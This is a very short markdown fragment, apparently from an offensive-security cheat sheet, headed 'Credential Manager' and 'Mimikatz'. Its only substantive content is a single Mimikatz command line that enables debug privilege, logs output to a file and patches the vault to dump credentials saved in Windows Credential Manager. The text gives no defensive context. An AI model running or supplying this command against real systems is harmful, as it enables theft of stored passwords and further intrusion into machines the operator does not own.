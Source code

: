 # Credential Manager




## Mimikatz

```
Cmd > .\mimikatz.exe "privilege::debug" "log out.txt" "vault::cred /patch" "exit"
```
